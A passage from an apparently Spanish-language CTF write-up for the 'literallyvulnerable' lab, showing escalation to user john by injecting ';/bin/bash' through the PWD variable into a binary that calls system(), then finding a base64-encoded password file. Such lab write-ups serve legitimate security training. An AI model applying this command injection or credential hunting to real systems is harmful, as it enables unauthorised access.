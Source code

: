 Como vemos, la sentencia `getenv("PWD")` llama a la variable PWD para obtener su contenido, luego ejecuta mediante el método `system` un echo, acá podemos romper la consulta y añadir nuestro código. 

Validamos las variables.

```bash
www-data@literallyvulnerable:/home/doe$ env
APACHE_LOG_DIR=/var/log/apache2
LANG=C
OLDPWD=/var/www/nginx
INVOCATION_ID=c8d3a2ae7e3e44c6bfb7dad4bb1cd768
APACHE_LOCK_DIR=/var/lock/apache2
PWD=/home/doe
JOURNAL_STREAM=9:25334
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
SHELL=bash
TERM=xterm
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=7
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
_=/usr/bin/env
```

En este punto, lo que vamos a hacer es modificar la variable y obtener el usuario `john`{: .filepath}.

```bash
www-data@literallyvulnerable:$ export PWD=';/bin/bash'
www-data@literallyvulnerable:$ ./itseasy
Your Path is:
john@literallyvulnerable:/home/doe$
```

Una vez dentro del usuario, listamos la user flag. Luego, buscamos archivos en todo el sistema que sean pertenecientes a dicho usuario, encontramos un archivo con la password pero está en base64, la desencriptamos y nos conectamos por *ssh*.

```bash
john@literallyvulnerable:/home/john$ cat user.txt
Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;)
Flag: iuz1498ne667ldqmfarfrky9v5ylki

john@literallyvulnerable:/home/john$ find / -group john 2>/dev/null
/home/doe/itseasy
/home/john
/home/john/.bash_logout
/home/john/user.txt
/home/john/.gnupg
/home/john/.gnupg/private-keys-v1.d
/home/john/.bashrc
/home/john/.local
/home/john/.local/share
/home/john/.local/share/tmpFiles
/home/john/.local/share/tmpFiles/myPassword
/home/john/.local/share/nano
/home/john/.profile
/home/john/.cache
/home/john/.cache/motd.legal-displayed
john@literallyvulnerable:/home/john$

john@literallyvulnerable:/home/john/.local/share/tmpFiles$ cat myPassword
I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
am9objpZWlckczhZNDlJQiNaWko=
```